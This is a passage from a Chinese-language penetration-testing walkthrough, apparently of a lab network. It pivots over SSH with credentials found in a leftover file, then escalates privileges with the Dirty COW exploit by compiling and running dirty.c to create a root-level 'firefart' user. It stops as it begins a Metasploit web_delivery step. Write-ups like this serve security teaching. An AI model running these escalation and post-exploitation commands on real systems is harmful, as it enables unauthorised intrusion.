 那么这里很明显还有一台 linux 主机在整个拓扑内做为内网 Ubuntu 的反向代理主机，这时候我翻缓存文件夹的时候发现了一个 mysql 文件夹，跟进去看看

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdG9tZmTDJjC0eJR0priahqSCLQU3I9NRVyr0Nvc9xK3QAVibicIrSopHiaA/640?wx_fmt=png)

发现了一个 test.txt，不会又是管理员忘记删了的账号密码吧 (手动狗头)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdG0MzTYUAL7uL8icmbW6MjW7BibYtYRnUkpBWrdWv6ibknDYfrE3wYTmEA/640?wx_fmt=png)

因为之前我们扫端口的时候发现开了 22 端口，那么这个账号密码很可能就是 ssh 的帐号密码

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdIOZppqdanspSPVCibalHzRlRVu31ZHQPUVGIibyFwCEYgfdNA7M8ATEQ/640?wx_fmt=png)

使用 ssh 连接尝试

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdL6TT5dLib3YEvibtpvT0ibvIDmkSbriaboWJNNCQUMIE6Z5sRgVLiasKycg/640?wx_fmt=png)

连接成功到了另外一台 linux 主机

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdicCzoERNia8ExmkFfPZ6Ecb4yvdR49E2Ujibmh3v6NC2EQV96Ivg6KNCA/640?wx_fmt=png)

看一下主机和 ip 情况，可以发现这台主机已经不是我们之前的那台 Ubuntu 了，而是 CentOS，而且双网卡，一张网卡是我们之前扫描时候得出的 1.0/24 这个网段的 ip，还有一个 ip 就是 93.0/24 这个内网网段的 ip，那么这台 linux 主机就是 Ubuntu 的反向代理主机无疑了

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdeEnua55Al9l8LhxWsqKfx4QeibOn0LqU428okIl78aOfsk6edthbzhA/640?wx_fmt=png)

**3.6 脏牛提权**
------------

这里直接选择 linux 提权首选的脏牛进行提权

```
gcc-pthreaddirty.c-odirty-lcrypt   //编译dirty.c
```

```
./dirty123456  //创建一个高权限用户，密码为123456
```

可以看到这里已经执行成功，脏牛执行成功过后会自动生成一个名为`firefart`的高权限用户，密码就是我们刚才设置的 123456

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdUPGoAgR2jZEXhhGicN6S1bQA1VHibTsscGNVFHY0IibATa11Xm5FbzXWg/640?wx_fmt=png)

这里我们切换到`firefart`用户进行查看

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdLw6s2hKO4ygE4rSYIwsE5GicWSat475ibrJ3Xf3q0Vvyk9Pib7YunXMPQ/640?wx_fmt=png)

**4、内网渗透**
==========

**4.1 centos 上线 msf**
---------------------

这里因为是 linux 的原因，就不使用 cs 上线的打法了，先生成一个 linux 的 payload 上线到 msf

```
use exploit/multi/script/web_delivery
```
